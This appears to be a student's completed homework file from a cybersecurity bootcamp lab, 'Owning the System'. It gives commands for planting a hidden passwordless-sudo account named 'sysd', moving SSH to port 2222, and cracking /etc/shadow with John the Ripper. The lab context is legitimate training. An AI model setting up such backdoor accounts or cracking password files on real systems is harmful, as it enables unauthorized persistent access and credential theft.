 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - adduser sysd

2. Give your secret user a password: 
    - sysd      

3. Give your secret user a system UID < 1000:
    - usermod -u 420 sysd 
    
4. Give your secret user the same GID:
   - groupmod -g 420 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  visudo
      ALL=(ALL)NOPASSWD:ALL

6. Test that `sudo` access works without your password:
   Matching Defaults entries for sysd on scavenger-hunt:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

     User sysd may run the following commands on scavenger-hunt:
        (ALL) NOPASSWD: ALL
**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

     sudo nano /etc/ssh/sshd_config
     semanage port -a -t ssh_port_t -p tcp 2222


**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh.service

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su root

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su root
    - john /etc/shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

